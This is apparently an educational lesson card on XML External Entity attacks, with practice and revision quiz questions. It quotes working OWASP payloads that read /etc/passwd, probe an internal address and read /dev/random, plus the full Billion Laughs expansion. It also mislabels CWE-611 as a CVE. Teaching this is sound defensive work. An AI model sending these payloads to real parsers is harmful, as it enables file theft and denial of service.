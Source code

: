 ```yaml
---
author: lizTheDeveloper
type: normal
category: hack
links:
  - '[OWASP Top Ten](https://owasp.org/www-project-top-ten/){website}'
  - >-
    [Billion Laughs
    Attack](https://en.wikipedia.org/wiki/Billion_laughs_attack){website}
  - >-
    [Security Briefs - XML Denial of Service Attacks and
    Defenses](https://docs.microsoft.com/en-us/archive/msdn-magazine/2009/november/xml-denial-of-service-attacks-and-defenses){website}
  - >-
    [SAML Security XML External Entity
    Attack](https://secretsofappsecurity.blogspot.com/2017/01/saml-security-xml-external-entity-attack.html){website}
  - >-
    [Detecting and exploiting XXE in SAML
    Interfaces](https://web-in-security.blogspot.com/2014/11/detecting-and-exploiting-xxe-in-saml.html){website}
  - '[CVE-611](https://cwe.mitre.org/data/definitions/611.html){website}'
practiceQuestion:
  formats:
    - fill-in-the-gap
  context: relative
revisionQuestion:
  formats:
    - fill-in-the-gap
  context: relative
---
```


# eXternal XML Entities


---

## Content

OWASP describes XXE as Xternal XML Entities, which is a vulnerability vector in XML documents that allows them to embed other documents, including local system files, in XML documents. If these processors run or execute these files with elevated permissions, attackers can inject malicious instructions in their XML files.

These examples from *OWASP's Top Ten* list show how the data can be configured to execute external scripts:

**Scenario #1**: The attacker attempts to extract data from the
server:

```plain-text
<?xml version="1.0"
 encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM
 "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

**Scenario #2**: An attacker probes the server's private network by
changing the above ENTITY line to:

```plain-text
<!ENTITY xxe
SYSTEM "https://192.168.1.1/private" >]>
```

**Scenario #3**: An attacker attempts a denial-of-service attack by
including a potentially endless file:

```plain-text
<!ENTITY xxe
SYSTEM "file:///dev/random" >]>
```

Here's an example of this attack that was a widespread problem due to it's simplicity, called the **Billion Laughs Attack**:

```plain-text
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1
 "&lol;&lol;&lol;&lol;&lol;
  &lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2
 "&lol1;&lol1;&lol1;&lol1;&lol1;
 &lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3
 "&lol2;&lol2;&lol2;&lol2;&lol2;
 &lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4
 "&lol3;&lol3;&lol3;&lol3;&lol3;
 &lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5
 "&lol4;&lol4;&lol4;&lol4;&lol4;
 &lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6
 "&lol5;&lol5;&lol5;&lol5;&lol5;
 &lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7
 "&lol6;&lol6;&lol6;&lol6;&lol6;
 &lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8
 "&lol7;&lol7;&lol7;&lol7;&lol7;
 &lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9
 "&lol8;&lol8;&lol8;&lol8;&lol8;
 &lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

From Wikipedia:

> When an XML parser loads this document, it sees that it includes one root element, "lolz", that contains the text "&lol9;". However, "&lol9;" is a defined entity that expands to a string containing ten "&lol8;" strings. Each "&lol8;" string is a defined entity that expands to ten "&lol7;" strings, and so on. After all the entity expansions have been processed, this small (< 1 KB) block of XML will actually contain 10^9 = a billion "lol"s, taking up almost 3 gigabytes of memory.


---

## Practice

An XXE attack affects what components of an application?
???

- XML Processors
- HTTP Endpoints
- Network Firewall
- HTML DOM


---

## Revision

An XXE attack comes from exploiting what?
???

- External Entities
- Unvalidated Input
- Untested Code
- Malformed Requests
